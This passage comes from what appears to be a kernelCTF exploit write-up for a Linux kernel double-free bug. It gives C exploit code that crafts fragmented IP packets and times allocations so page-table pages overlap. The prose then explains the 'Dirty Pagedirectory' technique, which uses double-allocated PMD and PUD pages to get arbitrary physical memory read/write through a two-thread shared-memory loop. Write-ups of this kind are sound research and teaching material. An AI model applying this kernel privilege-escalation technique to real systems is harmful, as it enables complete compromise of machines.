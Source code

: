 ```c

		// soft lock on cpu == too early
		// bad page (non-zero page refcount) == too late (missed warning() window), nearly did undetected double free

		//usleep(30 * 1000);  // env:qemu-debug,kernel:debug,fs:debian,redirect:stdout env:kernel-debug-v3,kernel:lts-6.1.72,fs:kernelctf,redirect:none
		usleep(20 * 1000); //  env:kernel-debug-v2,kernel:lts-6.1.72,fs:kernelctf,redirect:none env:kernelctf,kernel:lts-6.1.64,fs:debian,redirect:none
		// ^^^^ REVERT FOR KERNELCTF PROD ^^^^

		// alloc skb3, and wait 1 second for allocating next packet to give time to other thread for allocating pmd
		df_ip_header.ip_id = 0x1338;
		df_ip_header.ip_len = sizeof(struct ip) + 32768 + 16;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000); 
		alloc_intermed_buf_hdr(32768 + 8, &df_ip_header);

		// skb3 will be free'd
		usleep(1100 * 1000);

		// allocate overlapping PUD (overlaps with PMD)
		*(unsigned long long*)_pud_area = 0xCAFEBABE;

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

## Workflow - Dirty Pagedirectory

Now we have access to the double-allocated PMD page and PUD page, we can do the fun stuff (unlimited read/write to any physical memory address).

### PMD write loop (hacky IPC)

In this version of the exploit Dirty Pagedirectory has to be split in 2 threads (because internally the pagetable pages differ). This means the target-address-write and target-address-dereference parts have to be split across threads. 

Therefore, IPC has to be implemented. Don't be afraid: it's just a struct in shared memory VMA with a few states in a while loop, kind of like a lock. Nothing to be scared about.

Here's the part with the PMD write, or put differently, the target-address-write loop. The other thread can write the target address to the shared struct, and this loop will change the target address to it.

`memdump_info->mem_status == MEM_STAT_DO_UPDATE` tells the loop to change the PMD area to a base of `memdump_info->iteration_base`. After it is done, it will change it to `memdump_info->mem_status == MEM_STAT_DO_IO`, letting the other thread know it can continue.
